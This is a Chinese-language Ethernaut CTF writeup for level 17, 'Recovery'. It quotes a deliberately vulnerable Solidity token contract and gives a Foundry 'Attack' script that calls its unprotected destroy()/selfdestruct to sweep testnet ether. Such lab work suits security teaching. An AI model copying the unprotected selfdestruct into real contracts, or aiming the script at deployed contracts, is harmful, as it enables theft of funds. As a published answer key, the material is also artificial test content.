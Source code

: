 # Ethernaut CTF Writeup

## Level 17 Recovery

> 題目: https://ethernaut.openzeppelin.com/level/0x32a089747130fE7391A7FBaad83D14F699fc7dbD

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

過關條件: 

- recover (or remove) the 0.001 ether from the lost contract address.

解法：

- 使用區塊瀏覽器（如 Etherscan）來查找 generateToken 的交易記錄，並定位 SimpleToken 合約的地址
    > e.g. https://sepolia-optimism.etherscan.io/address/0xA4D89723A2C2F68174c9A914D804BA1F895c1c10#internaltx 
    >     -> https://sepolia-optimism.etherscan.io/address/0xf2c2e3b24590ea9f42367f47d7242a7034678cfd
- 通過錢包或腳本調用該合約的 `destroy(address payable _to)` 函數，傳入你的地址來接收合約中剩餘的 0.001 Ether

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {SimpleToken} from "../src/level17/Recovery.sol";

contract Attack is Script {
    // https://sepolia-optimism.etherscan.io/address/0xA4D89723A2C2F68174c9A914D804BA1F895c1c10#internaltx
    SimpleToken target = SimpleToken(payable(0xf2c2E3B24590EA9f42367f47D7242A7034678cfD));
    function run() public {
        vm.startBroadcast();

        target.destroy(payable(msg.sender));

        vm.stopBroadcast();
    }
}

```